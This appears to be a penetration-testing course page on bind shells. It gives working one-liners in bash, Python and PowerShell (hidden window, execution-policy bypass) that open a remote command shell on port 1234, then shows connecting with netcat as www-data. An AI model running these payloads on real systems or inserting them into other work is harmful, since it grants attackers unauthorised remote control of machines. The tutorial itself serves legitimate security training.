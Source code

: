 Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

___

#### Netcat Connection #nc

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

Types of Shells

```shell
6165@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

___

#### Upgrading TTY #UpgradeShell 
